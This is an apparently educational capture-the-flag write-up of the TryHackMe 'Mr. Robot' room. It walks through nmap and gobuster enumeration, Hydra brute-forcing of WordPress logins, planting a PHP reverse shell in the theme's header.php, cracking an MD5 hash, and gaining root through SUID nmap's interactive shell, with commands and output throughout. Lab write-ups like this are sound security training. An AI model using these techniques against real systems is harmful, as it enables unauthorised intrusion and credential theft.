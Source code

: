 ```yaml
---
layout: post
title: Mr. Robot
author: Mitchell Stein
tags:
- jekyll theme
- jekyll
date: 2021-11-27
tags: [TryHackMe, WebApp, Linux]
categories: [Practice]
toc:  true
---
```


Mr. Robot is a TryHackMe room based around the TV show of the same name.

## Enumeration

### Nmap

Starting off like all the rest, perform an Nmap

```shell
$ nmap -sC -sV -o nmap 10.10.63.176
Nmap scan report for 10.10.63.176
Host is up (0.12s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
```

### Webapp

Perusing around the webpage of the machine you can find a robots.txt file (seems on theme). The file contains the following items:

```text
User-agent: *
fsocity.dic
key-1-of-3.txt
```

Downloading the .dic file to our local machine we can see it is a 858,160 line long file we can use for password guessing.

```zsh
┌──(root💀kali-linux-2021-1)-[/home/parallels/THM/Mr.Robot]
└─# wget 10.10.167.86/fsocity.dic
--2021-11-27 09:59:09--  http://10.10.167.86/fsocity.dic
Connecting to 10.10.167.86:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7245381 (6.9M) [text/x-c]
Saving to: ‘fsocity.dic’

fsocity.dic              100%[===========>]   6.91M  1.17MB/s    in 6.8s

2021-11-27 09:59:16 (1.02 MB/s) - ‘fsocity.dic’ saved [7245381/7245381]


┌──(root💀kali-linux-2021-1)-[/home/parallels/THM/Mr.Robot]
└─# cat fsocity.dic | wc -l
858160
```

This length is insane, and thankfully it is absolutely FILLED with duplicate entries. We can shorten this down with the following command

```zsh
┌──(root💀kali-linux-2021-1)-[/home/parallels/THM/Mr.Robot]
└─# cat fsocity.dic | sort | uniq | wc -l
11451
```

This reduces the wordlist by a staggering **_98.7%_**! Remember to always clean your datasets kids.

### Gobuster

```zsh
──(root💀kali-linux-2021-1)-[/home/parallels/THM/Mr.Robot]
└─# gobuster dir -u 10.10.167.86 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -e -x 301,404
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.167.86
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              301,404
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
2021/11/27 10:17:12 Starting gobuster in directory enumeration mode
===============================================================
/blog                 (Status: 301) [Size: 233] [--> http://10.10.63.176/blog/]
/login                (Status: 302) [Size: 0] [--> http://10.10.63.176/wp-login.php]
/images               (Status: 301) [Size: 235] [--> http://10.10.63.176/images/]
/index.html           (Status: 200) [Size: 1188]
/index.php            (Status: 301) [Size: 0] [--> http://10.10.63.176/]
/sitemap              (Status: 200) [Size: 0]
/image                (Status: 301) [Size: 0] [--> http://10.10.63.176/image/]
/wp-content           (Status: 301) [Size: 239] [--> http://10.10.63.176/wp-content/]
/admin                (Status: 301) [Size: 234] [--> http://10.10.63.176/admin/]
/wp-login.php         (Status: 200) [Size: 2664]
/wp-login             (Status: 200) [Size: 2664]
/rss2                 (Status: 301) [Size: 0] [--> http://10.10.63.176/feed/]
/license.txt          (Status: 200) [Size: 309]
/license              (Status: 200) [Size: 309]
/wp-includes          (Status: 301) [Size: 240] [--> http://10.10.63.176/wp-includes/]
/Image                (Status: 301) [Size: 0] [--> http://10.10.63.176/Image/]
/wp-register.php      (Status: 301) [Size: 0] [--> http://10.10.63.176/wp-login.php?action=register]
/wp-rss2.php          (Status: 301) [Size: 0] [--> http://10.10.63.176/feed/]
```

Looks like we have a WordPress site!

## Abusing fsocity.dic

Sadly, we do not have a username to go off of to use the fsocity.dic file on. However on the other hand we have a fsocity.dic file to go off of to find a username.

We can use Hydra for this user enumeration.

```zsh
┌──(root💀kali-linux-2021-1)-[/home/parallels/THM/Mr.Robot]
└─# hydra -L fsocity.dic 10.10.167.86 -p test http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username" -t 64
. . .
[DATA] attacking http-post-form://10.10.167.86:80/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username
[80][http-post-form] host: 10.10.167.86   login: Elliot   password: test
[80][http-post-form] host: 10.10.167.86   login: elliot   password: test
```

And now we can use "Elliot" for password guessing!

```zsh
┌──(root💀kali-linux-2021-1)-[/home/parallels/THM/Mr.Robot]
└─# hydra -l Elliot -P fsocity.dic  10.10.167.86 http-post-form  "/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered" -t 64
. . .
[80][http-post-form] host: 10.10.167.86   login: Elliot   password: ER28-0652
```

## Reverse Shell

Now that we can log into the WordPress site, to get a reverse shell on the system we can edit the header.php file under Appearance > Editor > header.php

I personally like to upload my reverse shells into this file just under the header comment section. A great php-reverse-shell to use is [pentestmonkey's](https://pentestmonkey.net/tools/web-shells/php-reverse-shell).

After adding the reverse shell navigate to 10.10.167.86/header.php

```zsh
┌──(root💀kali-linux-2021-1)-[/home/parallels/THM/Mr.Robot]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.6.89.80] from (UNKNOWN) [10.10.7.84] 44094
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 15:25:45 up 10 min,  0 users,  load average: 0.03, 0.10, 0.11
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: cant access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/$ ^Z
zsh: suspended  nc -nlvp 4444

┌──(root💀kali-linux-2021-1)-[/home/parallels/THM/Mr.Robot]
└─$ stty raw -echo;fg
[1]  + continued  nc -nlvp 4444

daemon@linux:/$ id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
daemon@linux:/$
```

## User Enumeration

Looking through the files on the system we find a robot user folder with some interesting files

```console
daemon@linux:/$ cd /home;ls
robot

daemon@linux:/home$ cd robot/
daemon@linux:/home/robot$ ls
key-2-of-3.txt  password.raw-md5

daemon@linux:/home/robot$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b

daemon@linux:/home/robot$ cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
```

## Robot user

Using [crackstation.net](https://crackstation.net) we can get password for the hash.

`c3fcd3d76192e4007dfb496cca67e13b : abcdefghijklmnopqrstuvwxyz`

Now that we are authenticated as Robot, we can read the second key file under /home/robot.

This user also has no sudo commands to run but we can enumerate the SUID binaries we can run with the following one-liner:

```sh
robot@linux:~$ find / -type f -perm -04000 -ls 2>/dev/null
 15068   44 -rwsr-xr-x   1 root     root        44168 May  7  2014 /bin/ping
 15093   68 -rwsr-xr-x   1 root     root        69120 Feb 12  2015 /bin/umount
 15060   96 -rwsr-xr-x   1 root     root        94792 Feb 12  2015 /bin/mount
 15069   44 -rwsr-xr-x   1 root     root        44680 May  7  2014 /bin/ping6
 15085   40 -rwsr-xr-x   1 root     root        36936 Feb 17  2014 /bin/su
 36231   48 -rwsr-xr-x   1 root     root        47032 Feb 17  2014 /usr/bin/passwd
 36216   32 -rwsr-xr-x   1 root     root        32464 Feb 17  2014 /usr/bin/newgrp
 36041   44 -rwsr-xr-x   1 root     root        41336 Feb 17  2014 /usr/bin/chsh
 36038   48 -rwsr-xr-x   1 root     root        46424 Feb 17  2014 /usr/bin/chfn
 36148   68 -rwsr-xr-x   1 root     root        68152 Feb 17  2014 /usr/bin/gpasswd
 36349  152 -rwsr-xr-x   1 root     root       155008 Mar 12  2015 /usr/bin/sudo
 34835  496 -rwsr-xr-x   1 root     root       504736 Nov 13  2015 /usr/local/bin/nmap
 38768  432 -rwsr-xr-x   1 root     root       440416 May 12  2014 /usr/lib/openssh/ssh-keysign
 38526   12 -rwsr-xr-x   1 root     root        10240 Feb 25  2014 /usr/lib/eject/dmcrypt-get-device
395259   12 -r-sr-xr-x   1 root     root         9532 Nov 13  2015 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
395286   16 -r-sr-xr-x   1 root     root        14320 Nov 13  2015 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
 38505   12 -rwsr-xr-x   1 root     root        10344 Feb 25  2015 /usr/lib/pt_chown
```

The most interesting one here is nmap, and according to [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/#suid) we can exploit nmap to gain a root shell.

```sh
robot@linux:~$ /usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
# whoami
root
```

With this we can read the final key file and complete the machine.
